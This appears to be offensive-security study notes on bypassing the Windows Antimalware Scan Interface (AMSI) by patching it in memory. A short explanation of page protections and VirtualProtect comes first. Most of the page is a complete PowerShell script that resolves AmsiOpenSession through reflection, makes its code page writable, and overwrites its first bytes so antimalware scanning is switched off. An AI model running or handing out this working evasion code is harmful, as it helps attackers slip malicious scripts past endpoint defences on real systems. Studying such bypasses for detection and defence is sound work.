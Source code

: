 Normally, code pages are set to `PAGE_EXECUTE_READ`, or `0x20`, i.e., we can read and execute this code, but not write to it.

Since we want to overwrite 3 bytes on this page, first change the memory protection. => Win32 `VirtualProtect` API.

The 3rd argument (`flNewProtect`) dictates the memory protection we want to apply to the page. Set this to `PAGE_EXECUTE_READWRITE` (`0x40`).

The new memory protection is set to `PAGE_EXECUTE_WRITECOPY` which is equivalent to `PAGE_EXECUTE_READWRITE` but it is a private copy used only in the current process.

```pwsh
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```
